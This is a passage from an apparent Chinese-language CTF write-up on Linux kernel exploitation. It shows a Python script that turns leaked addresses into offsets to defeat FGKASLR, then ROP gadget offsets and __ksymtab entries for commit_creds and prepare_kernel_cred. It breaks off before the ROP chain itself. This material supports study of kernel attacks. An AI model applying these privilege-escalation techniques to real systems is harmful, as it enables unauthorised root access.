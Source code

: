 寫了一個腳本來比對:

```python
#!/usr/bin/python3

import sys

if len(sys.argv) <= 1:
    exit(1)

with open(sys.argv[1], 'r') as f:
    datas = f.read().split('\n')

base = int(datas[-1], 16)
datas = datas[:-1]

out = ""
for data in datas:
    k, v = data.split(": ")
    out += f"{k}: {hex(int(v, 16) - base)}\n"

open(f"{sys.argv[1]}.out", "w").write(out)
```

檔案格式如下，最下面為 `_text` address:

```
[*] 0: 0xffffffff9a9ac560
[*] 8: 0x00000015
...
[*] 496: 0x00403180
[*] 504: 0x00000000
0xffffffff9a200000
```

之後用 `vimdiff <(cat A.out) <(cat B.out)` 查看是否有相同的地方，最後得到結果 `[*] 304: 0xa157` 在兩個檔案中是相同的，求得 kernel base。

之後就找可以使用的 gadget，以及 `/proc/kallsyms` 中 `__ksymtab` 開頭的 symbol 如 `__ksymtab_commit_creds`、`__ksymtab_prepare_kernel_cred`，之後找有用 + 不會受影響的 gadget (不知道怎麼找):

```
0x4d11; // pop rax ; ret
0x015a80; // mov eax, dword ptr [rax] ; pop rbp ; ret

0x200f10; // swapgs_restore_regs_and_return_to_usermode
0xf85198; // ksymtab
0xf87d90; // __ksymtab_commit_creds
0xf8d4fc; // __ksymtab_prepare_kernel_cred
```

文章作者發現在 `__x86_retpoline_r15` 之前的都不會受到 FGKASLR 的影響，不過找不到 source code `arch/x86/boot/compressed/fgkaslr.c`，實在不知道怎麼發現的。

由於 ROP 的大小有限，因此分成個步驟來執行:
